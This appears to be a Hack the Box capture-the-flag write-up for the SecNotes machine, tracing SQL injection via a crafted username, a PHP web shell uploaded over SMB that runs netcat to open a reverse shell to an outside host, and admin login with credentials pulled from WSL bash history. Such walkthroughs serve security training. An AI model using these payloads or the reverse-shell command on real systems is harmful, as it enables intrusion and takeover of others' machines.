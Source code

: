 ```yaml
---
title: SecNotes
date: 2024-02-27 10:00
categories: [ctf, security, hacking, exploits]
tags: [ctf, security, hacking, exploits]
---
```


# Overview
SecNotes is a vulnerable machine from [Hack the Box](https://www.hackthebox.com) that requires some basic web enumeration and file reading, with using SQL Injection on the login page. The foothold is accomplished after some enumeration of a couple files in the web server, and then putting a shell in the smb drive. The privilege escalation is using a file on the machine to check the history of the windows subsystem for linux to find credentials, and using this to gain admin access. 

## Nmap Scan
nmap -T3 -Pn `10.10.10.97` -vvv

* 80/tcp   open  http  syn-ack
* 445/tcp  open  microsoft-ds  syn-ack
* 8808/tcp open  ssports-bcast syn-ack

OS version: Windows 10 Enterprise 17134 (Windows 10 Enterprise 6.3)

## Basic Enumeration
Nothing coming up with smbclient, likely need an actual user rather than guest login. We can check out the web page, and run some web enumerations like nikto and gobuster while we check out whats on the web at both port 80 and 8808.

`Gobuster` gives us a fair number of web pages to check out: 
```
/auth.php             (Status: 500) [Size: 1208]
/contact.php       (Status: 302) [Size: 0] [--> login.php]
/Contact.php       (Status: 302) [Size: 0] [--> login.php]
/DB.php               (Status: 500) [Size: 1208]
/db.php               (Status: 500) [Size: 1208]
/home.php          (Status: 302) [Size: 0] [--> login.php]
/Home.php        (Status: 302) [Size: 0] [--> login.php]
/login.php            (Status: 200) [Size: 1223]
/Login.php            (Status: 200) [Size: 1223]
/logout.php        (Status: 302) [Size: 0] [--> login.php]
/register.php         (Status: 200) [Size: 1569]
```
PHP is used in this environment on the web service: `PHP/7.2.7`.

* At the login portal, we see we have the abilitiy to register. Here, we can test and see if SQL Injection is available to use by registering as user `'OR 1 OR'`.
* Using this user and signing in, we have unexpected access to other user notes. 
* Checking out the other notes, we can see a note that gives us a password: `tyler / 92g!mA8BGjOirkL%OG*&`

## Foothold
Using the credentials we found, we can now enumerate the smb shares, and can see the share `new-site`:
```
Disk             Permissions     Comment
----             -----------     -------
ADMIN$           NO ACCESS       Remote Admin
C$               NO ACCESS       Default share
IPC$             READ ONLY       Remote IPC
new-site         READ, WRITE
```

* Using the level of access we have, we can try to put files onto the machine for execution. Putting something like `nc64.exe` is not enough, as we can't access that on the web. Since there is php on the web site, we can put a second file that will allow us to get `nc64.exe` to run. 

```php
<?php
system('nc64.exe -e cmd.exe 10.10.16.3 5555')
?>
```
* After we put both files into this share, we go out to the site on port 8808, and the file `rev1.php` should be accessible. With a netcat listener on our end, we can get a reverse shell after going to the page: http://10.10.10.97:8808/rev1.php
* We have to do it in quick succession, as we have found that files get cleared from the host every few minutes. We now have access to `user.txt`:

![User](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/secnotes/SecNotes_User.png?raw=true)

## Local Enumeration
Trying to bring over files like `winpeas` didn't work and got blocked by the system AV. After doing some more manual checks on the host, we find that this machine has the `windows subsystem for linux` on it. 

* We find this and the bash executable inside a `winsxs` file path. 
* https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#windows-subsystem-for-linux-wsl

From here, we can run the `bash.exe` file and drop into this subsystem. 

## Privilege Escalation
We are now in the linux local shell on the host. The interactive shell is a bit unstable, and we should escape using a tty escape. We can run the following to get a cleaner tty: `python -c 'import pty; pty.spawn("/bin/bash")'`

* While we are in this shell, we can poke around a bit to see what is here. A quick history check gives us the administator credentials: `smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$` (the `%` symbol signifies a space)

* With this, we should be able to run `psexec` and easily login as the administrator: `impacket-psexec 'administrator:u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97`
* We can now read `root.txt`: 

![Root](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/secnotes/SecNotes_Root.png?raw=true)